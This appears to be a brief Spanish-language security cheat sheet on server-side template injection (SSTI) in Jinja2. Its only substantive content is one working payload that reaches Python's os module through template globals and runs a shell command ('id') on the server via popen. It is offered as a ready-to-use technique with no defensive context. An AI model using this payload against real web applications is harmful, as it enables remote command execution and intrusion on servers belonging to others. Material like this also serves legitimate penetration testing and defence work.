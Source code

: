 # SSTI

## Ejecución de comandos jinja2

```null
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

